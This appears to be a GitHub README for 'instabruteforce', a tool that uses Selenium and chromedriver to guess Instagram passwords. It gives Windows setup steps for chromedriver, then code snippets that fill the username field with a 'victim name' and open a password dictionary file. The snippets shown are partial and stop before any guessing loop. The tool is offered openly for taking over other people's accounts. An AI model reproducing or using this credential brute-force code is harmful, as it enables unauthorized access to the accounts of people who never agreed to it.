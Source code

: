 # instabruteforce

<h1>Windows</h1>
<h3>How to Install chromedriver</h3>
<h3>step 1 : check your chrome version</h3>
<br>
<code>how to check your chrome version</code>
<pre style="background-color: black;">Go to chrome settings and click about chrome and now you saw your version</pre>
<h3>step 2 : Now <a href="https://chromedriver.chromium.org/downloads">click here</a> and you redirect to chromedriver webpage select your chrome version and download the webdriver ..the driver name like this chromedriver_win32</h3>
<h3>Enter your chromedriver path here for more information visit my youtube channel</h3>
<pre>PATH="C:/Users/Acer/Downloads/chromedriver_win32/chromedriver.exe"</pre>
<h3>Enter your username or victim name</h3>
<pre>username = rthacks.find_element_by_name('username')

username.send_keys('your username')</pre>
<h3>enter your password list dictionary</h3>
<h3>if you don't know how to set password dictionary visit my youtube channel</h3>
<pre>password = rthacks.find_element_by_name('password')
passfile=open('pass.txt','r')</pre>
